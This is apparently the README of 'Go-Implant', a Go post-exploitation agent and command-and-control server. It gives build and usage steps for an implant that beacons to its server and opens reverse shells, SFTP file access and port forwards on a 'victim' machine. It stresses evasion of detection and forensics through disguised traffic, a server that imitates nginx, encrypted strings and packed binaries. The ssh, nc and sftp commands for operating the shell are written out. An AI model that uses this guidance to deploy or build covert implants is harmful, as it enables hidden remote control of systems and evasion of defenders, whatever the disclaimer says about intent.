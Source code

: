 # Go-Implant
Go-Implant is a cross-platform post-exploitation agent written in Go. It consists of a server and a client (or agent). The agent beacons to the server periodically using http POST requests. As a reply to the beacon, the server returns list of commands to execute on the client. Built-in commands include port forwards, reverse shell and configuration changes.

To make detection and forensics harder:
- All communications in Go-Implant are encrypted and look 'normal' in traffic analysis. Beacons by default use HTTPS, while reverse shells and port forwards use SSH tunnels.
- The http server looks like a default installation of nginx to others than the agent.
- All sensitive strings inside the agent binary, such as configuration, are AES encrypted using random key.
- Agent configuration is flexible, user can choose for example beacon interval, user agent of beacons and beacon endpoints. 


### Note
Go-Implant is not a tool for committing crime. There is no functionality for criminal activities inbuilt to it, nor will it be added. This means for example that there is no persistence or modules for stealing credentials from systems.
The Author is not responsible of anything you use go-implant for.


## Why?
Because no long-deployable, cross-platform, flexible reverse shell with only basic functionality and standard protocols was found. Go-Implant is an attempt to create one.


## Features
- Encrypted communications
- Reverse shell access
- upload / download files
- Reverse port forwarding


## Installation
`apt install -y git make upx strip`
`git clone <repo name>`
`cd <repo name>`
`make deps`


## Compilation
Both client and server of Go-Implant are standalone executables that need to be compiled. Server has only been tested to compile and work on linux. Client has been tested to compile on Linux, and work on Linux and Windows.

### Server
1. Compile the server: (in cmd/server)
    `make prod`

### Client
1. Set configuration in /client/config/parameters.go
2. Encrypt static strings
    `cd client/config/`
    remove //build +ignore tag from parameters.go
    `go generate`
    add //build +ignore tag back to parameters.go
3. Compile the client for all platforms (in cmd/client)
    `make prod`

The makefile compiles the client for all platforms, strips symbols from the executables and finally packs them using upx.
As of writing mac executables are not stripped.
NOTE: makefile assumes commands upx and strip are available

### Debug builds
Should anything not work as expected, debugging builds are available of both server and client. These build include debugging symbols, a ton of printouts to tracks the activities of the program and omit compressing the resulting binaries. Debugging builds are trivial to reverse-engineer and therefore should not be used in production.

To compile debugging build, use command:
`make debug`
for both client and the server.

#### Configuration
The following parameters are freely configurable by the user in /client/config/parameters.go:

Sleeptime (int) - the time slept between beacons in seconds
Jitter (int) - random extra delay to be added to the sleeptime
Retries (int) - amount of tries to take in case C2 is unreachable
UserAgent (string) - the user agent that gets sent on beacons
CCHost (string) - the base server url
Endpoints (string[]) - the endpoints in the server to which beacon. They are chosen randomly


## Usage

### Server

You should get a SSL certificate and corresponding private key from Lets encrypt for best results. The agent will not trust self-signed certificates unless the root certificate has been installed first.

`Usage of ./server:
  -cert string
    	file with https cert (default "server.crt")
  -forwarded-timeout duration
    	forwarded-tcpip timeout (default 3h0m0s)
  -handlerport int
    	port of HTTP* listener (default 443)
  -http
    	use HTTP instead of HTTPS
  -main-timeout duration
    	Client socket timeout (default 3h0m0s)
  -privkey string
    	file with private key for cert (default "server.key")
  -sshport int
    	port of SSH listener (default 22)
`

#### examples
`./server -handlerport 8080 -sshport 2222`
`./server -cert othercert.crt -privkey otherkey.key`
`./server -forwarded-timeout 0h10m0s`


## Reverse shell and file access

Reverse shell access works as follows: The client starts a sshd listening on localhost and then initializes a reverse port forward to the server. The sshd on the client can then be accessed from the server using the forwarded port. There are commands quickssh and serveSSH on the server that start the reverse shell. quickssh uses the inbuilt sshd on the Go-Implant server to catch the port forward, serveSSH enables the usage any normal sshd for the purpose. 

NOTE: in order for the client to be able to forward port to the host, it needs to have valid SSH credentials. One must make sure that the credentials cannot be used to obtain a shell to the server when using normal sshd. In the inbuilt SSH, only reverse port forwards are allowed by clients.

Filesystem access is done using sftp.

### Unix (linux or mac):
After forwarding port from the client to server, just SSH in using the generated credentials.
`ssh <username>@localhost -p <port>`

### Windows:
After forwarding port from the client to server, forward another port from the client machine using the client's sshd to localhost, then connect to the forwarded port using netcat
`ssh -N -L <localport>:0.0.0.0:<destport> localhost -p <port>`
`nc localhost <localport>`

NOTE: right now destport is not used! The remote host 0.0.0.0 is a magic string that tells the agent to serve a cmd shell to the client.

### Uploading / Downloading files with sftp (both windows and unix)
After forwarding port from the client to server, you can access the filesystem using sftp.
`sftp -P <port> <username>@localhost`


## Port forwarding

Local ssh listener in the server allows at most 5 reverse port forwards from the victim.

### Windows:
On windows, ports can be forwarded but no shell can be launched at the same time, therefore flag -N must be used. Omitting the flag causes the client to serve sftp instead
`ssh -N -L <localport>:<desthost>:<destport> localhost -p <port>`

### Unix (linux or mac):
On linux, ports can be forwarded similarly with the familiar sshd
`ssh [-N] -L <localport>:<desthost>:<destport> localhost -p <port>`


## Features for future releases
- add x11 forwarding to unix ssh handler
- encrypt protocol strings


## Contributing
Contributions are more than welcome! Please submit your well tested code as a pull request. Writing documentation is also encouraged.
